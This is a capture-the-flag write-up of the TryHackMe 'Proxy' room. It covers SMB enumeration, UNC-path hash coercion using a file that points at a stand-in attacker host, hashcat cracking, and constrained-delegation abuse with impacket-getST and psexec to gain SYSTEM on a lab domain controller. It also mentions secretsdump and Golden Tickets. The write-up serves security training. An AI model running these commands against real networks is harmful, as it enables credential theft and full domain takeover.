





## Overview

**Proxy** is an Active Directory challenge on TryHackMe centered on a Windows domain controller (`DC01.ctf.local`). The attack begins with unauthenticated SMB enumeration, which surfaces a world-readable share containing an IT onboarding document that discloses a background service account. That service is exploited via **UNC path coercion** to capture a NetNTLMv2 hash, which is then cracked offline. With valid credentials, BloodHound reveals that the compromised service account holds **constrained delegation** rights over the domain controller, enabling full impersonation of the Administrator via Kerberos S4U2Proxy — yielding `NT AUTHORITY\SYSTEM`.



### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap` |
| SMB / AD enumeration | `smbclient`, `nxc` (NetExec), `kerbrute`, `ldapsearch` |
| Domain mapping | `bloodhound-python`, BloodHound |
| Hash capture & cracking | `impacket-smbserver`, `hashcat` |
| Exploitation | `impacket-getST`, `impacket-psexec` |

---

## Enumeration

### Port scan

We begin with a TCP SYN scan to identify open ports. The `-sS` flag performs the scan without completing the three-way handshake, making it faster and less conspicuous than a full-connect scan.

`sudo nmap -sS 10.113.175.229`

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-29 17:35 UTC
Nmap scan report for 10.113.175.229
Host is up (0.26s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```

The port profile is a textbook Windows domain controller. We follow up with a service/version scan against each discovered port.

`nmap -sV -sC -p53,88,135,139,389,445,464,593,636,3268,3269,3389 10.113.175.229`

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-29 17:37 UTC
Nmap scan report for 10.113.175.229
Host is up (0.25s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-29 17:37:20Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ctf.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ctf.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.ctf.local
| rdp-ntlm-info:
|   Target_Name: CTF
|   NetBIOS_Domain_Name: CTF
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ctf.local
|   DNS_Computer_Name: DC01.ctf.local
|   Product_Version: 10.0.17763
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Key findings:

| Port | Protocol | Notes |
|------|----------|-------|
| 88 | Kerberos | AS-REP roasting / Kerberoasting candidates |
| 139 / 445 | SMB / NetBIOS | Primary enumeration target |
| 389 / 3268 | LDAP / Global Catalog | Active Directory queries |
| 464 | kpasswd5 | Kerberos password-change service |
| 3389 | RDP | Remote access if credentials are found |

The NTLM banner on port 3389 confirms the hostname (`DC01`) and domain (`ctf.local`), running Windows Server 2019 (build `10.0.17763`).

### SMB enumeration

We check for shares accessible without credentials.

`smbclient -L //10.113.175.229 -N`

```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
IT-Shared       Disk      IT Department Shared Resources
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

`ADMIN$`, `C$`, and `IPC$` are default administrative shares. `NETLOGON` and `SYSVOL` are standard domain controller shares. The non-default share of interest is **`IT-Shared`**, which is readable without authentication.

`smbclient //10.113.175.229/IT-Shared -N`

```bash
smb: \> ls
  .                                   D        0  Fri May 22 03:19:03 2026
  ..                                  D        0  Fri May 22 03:19:03 2026
  IT-Credentials-Backup.txt           A      406  Fri May 22 03:18:15 2026
  IT-Onboarding-Checklist.txt         A      676  Fri May 22 03:18:16 2026
  IT-Portal.html                      A     4887  Fri May 22 03:19:03 2026
```

All three files are downloaded with `get <filename>` and examined locally.

**`IT-Credentials-Backup.txt`**

```text
IT Department - Credentials Backup
===================================
Generated: 2019-08-14
Status: ARCHIVED (accounts disabled pending security review)

  helpdesk.bob  :  <HELPDESK_BOB_PW>    [DISABLED - left company 2021]
  it.admin      :  <IT_ADMIN_PW>   [DISABLED - role change 2022]

NOTE: These accounts have been disabled. Active service accounts
      are managed separately by the sysadmin team.
```

**`IT-Onboarding-Checklist.txt`**

```text
IT Department Onboarding Checklist
====================================
Welcome to the team!

1. Get VPN access from sysadmin
2. Request AD account
3. Install tools (see software list on intranet)
4. Review security policies

Automated Services
------------------
  File Scanner (svc.scanner)
    Runs every 2 minutes. Enumerates IT-Shared for new files to process.
    Uses Shell enumeration to inspect file metadata and icons.
    Contact sysadmin if files are not being processed.

  Database Backup (svc.mssql)
    Handles nightly MSSQL backups. Member of Backup Operators.
    Password rotated quarterly -- do not store locally.

Questions? Email helpdesk@ctf.local
```

**`IT-Portal.html`**



**Analysis:**

- The credentials in `IT-Credentials-Backup.txt` are archived and marked disabled, but they surface two candidate usernames: `helpdesk.bob` and `it.admin`.
- `IT-Onboarding-Checklist.txt` discloses two service accounts: `svc.scanner` and `svc.mssql`.
- Crucially, `svc.scanner` runs every two minutes and **uses shell enumeration to inspect file metadata and icons**. This means the service invokes the Windows shell to process files placed in `IT-Shared`. Any UNC path embedded in a file will cause Windows to initiate an outbound SMB authentication, exposing the service account's NetNTLMv2 hash to a listener on that path.

I tried the archived credentials anyway — both return `STATUS_LOGON_FAILURE` as expected. Not a surprise, but worth the ten seconds.

### User enumeration

We compile all discovered usernames into a wordlist and use **kerbrute** to confirm which accounts are active in the domain.

```text
j.smith
svc.helpdesk
svc.scanner
helpdesk.bob
it.admin
svc.mssql
helpdesk
```

`kerbrute_linux_amd64 userenum -d ctf.local --dc 10.113.175.229 usernames.txt`

```bash
2026/06/30 15:35:16 >  [+] VALID USERNAME:       svc.mssql@ctf.local
2026/06/30 15:35:16 >  [+] VALID USERNAME:       svc.scanner@ctf.local
2026/06/30 15:35:16 >  Done! Tested 7 usernames (2 valid) in 0.256 seconds
```

> **Kerbrute** enumerates valid Active Directory usernames by sending AS-REQ packets to the KDC. A valid username receives a proper error response; an invalid one receives `PRINCIPAL_UNKNOWN`. No password is required.
{: .prompt-tip }

This confirms `svc.scanner` and `svc.mssql` are active; the archived credential holders are not. A RID brute-force via null session enumerates all domain principals and corroborates these findings.

`nxc smb 10.113.175.229 -u guest -p '' --rid-brute`

```bash
SMB  DC01  500: CTF\Administrator (SidTypeUser)
SMB  DC01  501: CTF\Guest (SidTypeUser)
SMB  DC01  502: CTF\krbtgt (SidTypeUser)
...
SMB  DC01  1111: CTF\svc.scanner (SidTypeUser)
SMB  DC01  1112: CTF\svc.mssql (SidTypeUser)
SMB  DC01  1113: CTF\helpdesk.bob (SidTypeUser)
SMB  DC01  1114: CTF\it.admin (SidTypeUser)
```

With two confirmed active service accounts, we check for **AS-REP roasting** — accounts with Kerberos pre-authentication disabled expose a crackable hash without requiring credentials.

`impacket-GetNPUsers ctf.local/ -usersfile valid_usernames.txt -dc-ip 10.113.175.229`

```bash
[-] User svc.scanner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc.mssql doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Neither account is AS-REP roastable. We shift to the attack surface identified in the onboarding document.

---

## Foothold — UNC Path Coercion

The `svc.scanner` service processes new files in `IT-Shared` using shell enumeration. When the Windows shell inspects a file that contains or references a UNC path (e.g., `\\<ATTACKER_IP>\share`), it automatically initiates an outbound SMB authentication to resolve that path — disclosing the service account's **NetNTLMv2 hash** to any SMB listener at that address.

**Step 1 — Start a local SMB listener:**

`impacket-smbserver share /tmp/share -smb2support`

**Step 2 — Create `link.cmd` with a UNC reference:**

```batch
dir \\<ATTACKER_IP>\share
```

**Step 3 — Upload `link.cmd` to `IT-Shared`:**

```bash
smbclient //10.113.175.229/IT-Shared -N
smb: \> put link.cmd
```

Within approximately two minutes, `svc.scanner` processes the file and authenticates to our listener:

```bash
[*] AUTHENTICATE_MESSAGE (CTF\svc.scanner,DC01)
[*] User DC01\svc.scanner authenticated successfully
[*] svc.scanner::CTF:<NTLMv2_HASH>
```

### Hash cracking

The captured hash is a **NetNTLMv2** hash (Hashcat mode `5600`). We crack it against the `rockyou.txt` wordlist.

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

```bash
SVC.SCANNER::CTF:<NTLMv2_HASH>:<SVC_SCANNER_PW>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Time.Started.....: Tue Jun 30 19:04:26 2026 (13 secs)
Recovered........: 1/1 (100.00%) Digests
```

---

## Domain Enumeration

### Credential validation

We verify the recovered credentials and inspect the share permissions available to this account.

`nxc smb 10.114.135.83 -u svc.scanner -p '<SVC_SCANNER_PW>'`

```bash
SMB  DC01  [+] ctf.local\svc.scanner:<SVC_SCANNER_PW>
```

`nxc smb 10.114.135.83 -u svc.scanner -p '<SVC_SCANNER_PW>' --shares`

```bash
SMB  DC01  Share      Permissions  Remark
SMB  DC01  -----      -----------  ------
SMB  DC01  ADMIN$                  Remote Admin
SMB  DC01  C$                      Default share
SMB  DC01  IPC$       READ         Remote IPC
SMB  DC01  IT-Shared  READ,WRITE   IT Department Shared Resources
SMB  DC01  NETLOGON   READ         Logon server share
SMB  DC01  SYSVOL     READ         Logon server share
```

`svc.scanner` has `READ,WRITE` access to `IT-Shared` and read access to domain shares. We also test for WinRM remote access.

`nxc winrm 10.114.135.83 -u svc.scanner -p '<SVC_SCANNER_PW>'`

```bash
WINRM  DC01  [-] ctf.local\svc.scanner:<SVC_SCANNER_PW>
```

WinRM access is denied. We proceed to domain enumeration with BloodHound.

### BloodHound collection

`bloodhound-python -u svc.scanner -p '<SVC_SCANNER_PW>' -d ctf.local -ns 10.114.135.83 -c All --zip`

```bash
INFO: Connecting to LDAP server: dc01.ctf.local
INFO: Found 1 domains
INFO: Found 1 computers
INFO: Found 8 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 19 containers
INFO: Done in 00M 49S
INFO: Compressing output into 20260630191637_bloodhound.zip
```

The resulting ZIP is imported into the BloodHound GUI (`127.0.0.1:8080`) for analysis.

### Constrained delegation

After marking `svc.scanner` as owned, BloodHound shows no direct Outbound Object Control — which usually means a dead end. The constrained delegation relationship to `DC01` in the node details was a better find than I expected.







Constrained delegation (configured via the `msDS-AllowedToDelegateTo` attribute) allows a service account to obtain Kerberos service tickets **on behalf of any domain user** to a specific set of services — including Domain Admins. This is the Kerberos **S4U2Proxy** extension.

We confirm the delegation target via LDAP.

`nxc ldap 10.114.135.83 -u svc.scanner -p '<SVC_SCANNER_PW>' --query "(samaccountname=svc.scanner)" "msDS-AllowedToDelegateTo"`

```bash
LDAP  DC01  [+] ctf.local\svc.scanner:<SVC_SCANNER_PW>
LDAP  DC01  msDS-AllowedToDelegateTo  cifs/DC01
LDAP  DC01                            cifs/DC01.ctf.local
```

`svc.scanner` is permitted to delegate to the `CIFS` service on `DC01`. This grants full filesystem access to the domain controller, including `C$` and `ADMIN$`, on behalf of any impersonated user.

---

## Privilege Escalation

### Service ticket forgery (S4U2Proxy)

We use `impacket-getST` to request a Kerberos service ticket for `cifs/DC01.ctf.local`, impersonating the built-in `Administrator` account via the S4U2Self → S4U2Proxy chain.

```bash
impacket-getST \
  -spn 'cifs/DC01.ctf.local' \
  -impersonate Administrator \
  -dc-ip 10.114.135.83 \
  'ctf.local/svc.scanner:<SVC_SCANNER_PW>'
```

```bash
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

Export the ticket to the Kerberos credential cache environment variable.

`export KRB5CCNAME='Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache'`

Add the domain controller to `/etc/hosts` so Kerberos name resolution works correctly.

`echo '10.114.135.83 dc01.ctf.local dc01 ctf.local' | sudo tee -a /etc/hosts`

### Remote execution

With the forged ticket in place, we authenticate to the domain controller using `psexec` and Kerberos (`-k -no-pass`).

`impacket-psexec -k -no-pass dc01.ctf.local`

```bash
C:\Windows\system32> whoami
nt authority\system
```

> **Flag** is located at `C:\Users\Administrator\Desktop\flag.txt`.
{: .prompt-info }

### Post-exploitation (optional)

`impacket-secretsdump -k -no-pass dc01.ctf.local`

With a `SYSTEM`-level shell on the domain controller, `secretsdump` extracts NTLM hashes for all domain accounts directly from `NTDS.dit`. The `krbtgt` hash can be used to forge a **Golden Ticket**, providing persistent, unrestricted access to the domain even if all account passwords are subsequently rotated.

---

## Conclusion

Proxy chains several common Active Directory misconfigurations into a full domain compromise.

1. **Unauthenticated SMB access** — `IT-Shared` was readable without credentials, exposing internal documentation.
2. **Sensitive data in file shares** — archived credentials and service account details were disclosed via a world-readable share.
3. **UNC path coercion** — a background service that processes files using shell enumeration was abused to capture a service account's NetNTLMv2 hash.
4. **Weak password** — `svc.scanner`'s password (`<SVC_SCANNER_PW>`) was recoverable from `rockyou.txt` in under 30 seconds.
5. **Misconfigured constrained delegation** — `svc.scanner` was permitted to delegate to `cifs/DC01`, enabling impersonation of any domain user — including `Administrator` — to the domain controller's CIFS service.

*Happy hacking*
